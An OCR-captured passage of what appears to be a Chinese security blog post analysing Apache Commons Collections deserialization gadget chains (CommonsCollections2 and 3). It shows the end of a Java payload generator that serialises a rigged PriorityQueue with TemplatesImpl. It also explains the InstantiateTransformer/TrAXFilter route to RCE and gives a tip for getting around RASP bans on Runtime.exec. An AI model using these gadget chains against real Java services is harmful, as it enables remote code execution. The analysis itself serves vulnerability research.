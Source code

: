 ```java
        field.setAccessible(true);
        Object[] innerArr = (Object[]) field.get(queue);
        innerArr[0] = templates;
        innerArr[1] = templates;

        field = PriorityQueue.class.getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(queue);
        oos.close();
    }
}
```
生成字节码用的是 ysoseiral 一样的 javassist, 可以在正常的字节码前后插入恶意 payload.  
另外这里因为是运行的字节码, 所以其实变通方法很多, 如果只是想读写文件但有 RASP ban 掉了 Runtime.exec, 其实可以通过 File 来读写文件.  

4 的修复方法比较粗暴, 直接干掉了 InvokerTransformer 的 Serializable 继承.  

![](https://i.loli.net/2020/01/27/2aVoPLzdcXFfRj5.png#center)


## CommonsCollections3

这个与上面的 CommonsCollections1 接近, 区别是将一串的 InvokerTransformer 换成了 InstantiateTransformer, 利用刚刚在 CommonsCollections2 介绍的 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 导致 RCE. 本质是换汤不换药.

InstantiateTransformer 做的工作是
```java
public Object transform(Object input) {
    try {
        if (!(input instanceof Class)) {
            throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
        } else {
            Constructor con = ((Class)input).getConstructor(this.iParamTypes);
            return con.newInstance(this.iArgs);
        }
    }
```
就是将类实例化, 也就是调用 input 的构造函数, 这里 InstantiateTransformer 能替换 InvokerTransformer 的原因是内置类 `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 在构造时,  

```java
public TrAXFilter(Templates templates) throws TransformerConfigurationException {
    this._templates = templates;
    this._transformer = (TransformerImpl)templates.newTransformer();
    this._transformerHandler = new TransformerHandlerImpl(this._transformer);
    this._overrideDefaultParser = this._transformer.overrideDefaultParser();
}
```
会调用 templates 的 newTransformer 方法, 其实这里 InstantiateTransformer 起到的作用是和 InvokerTransformer 一样的.
